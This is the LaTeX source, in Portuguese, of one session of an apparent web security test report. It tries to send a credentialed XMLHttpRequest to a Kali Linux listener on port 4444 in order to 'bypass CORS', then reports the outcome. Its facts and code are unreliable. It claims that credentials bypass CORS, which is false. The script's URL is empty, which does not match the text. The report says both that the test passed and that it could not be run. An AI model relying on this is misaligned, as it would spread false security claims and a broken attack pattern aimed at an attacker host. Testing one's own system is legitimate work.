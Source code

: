 \documentclass[
    12pt,               %
    openright,          %
    oneside,            %
    a4paper,            %
    section=TITLE,     %
    english,            %
    french,             %
    spanish,            %
    brazil              %
    ]{abntex2}
\begin{document}
\paragraph*{Sessão de teste 1}

Para ignorar o filtro CORS do navegador é necessário que sejam incluídas algumas credenciais no cabeçalho da requisição. O script abaixo simula uma sessão de teste de requisição credenciada por meio do atributo \textquotedblleft{}\emph{withCredencials\textquotedblright{}\textbf{. }}


O código abaixo cria um objeto do tipo XMLHttpRequest e inicia uma chamada Ajax~ do tipo GET para IP\_do\_kali\_linux na porta 4444 de forma assíncrona. Porém, aqui é utilizado o atributo \textquotedblleft{}\emph{withCredencials\textquotedblright{} }para burlar o filtro de CORS do navegador.


$\textless$script$\textgreater$


r = new XMLHttpRequest();


r.open(''GET``,\rq{}\rq{},false);


r.withCredentials = true;


r.send();


$\textless$/script$\textgreater$



\paragraph*{Resultado esperado}

Espera-se que a máquina que hospeda o sistema não permita que a conexão seja aberta.



\paragraph*{Relatório de execução}

O sistema passou nos testes. O comando \emph{\textquotedblleft{}withCredentials\textquotedblright{} }~encontra-se depreciado e a conexão não ocorreu.


Não foi possível realizar o teste com êxito. Pois conforme mostra a Figura 34, o comando \emph{\textquotedblleft{}withCredentials\textquotedblright{} }foi depreciado pelo navegador e a conexão não ocorreu.





\begin{figure}[htp]
\centering
\caption{Console do navegador indicando a depreciação do atributo \textquotedblleft{}withCredencials\textquotedblright{}.}
\includegraphics[width=450px]{image31.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi
\end{document}
